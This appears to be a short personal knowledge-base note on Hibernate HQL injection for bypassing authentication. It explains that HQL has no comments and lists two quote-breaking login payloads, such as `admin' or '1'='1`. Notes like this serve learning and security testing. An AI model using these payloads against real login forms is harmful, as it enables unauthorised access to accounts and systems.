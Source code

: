 # hql injection auth bypass example

no comments in hql, so no commenting out the rest of the query
`admin' or '1'='1`
logic errors
`admin' or username='asdf` ~ "' and password = ..."

` zet/20221003151219/README.md `

# Related

- [20221013222124](/zet/20221013222124/README.md) concept hub for tricks and tips
- [20221014185554](/zet/20221014185554/README.md) kb file named kb/hacking/tricks/hibernate-hql-injection.md
- [20221003151220](/zet/20221003151220/README.md) hql injection
- ~/kb/hacking/tricks/hibernate-hql-injection.md

Tags:

    #hacking #trick #hibernate 
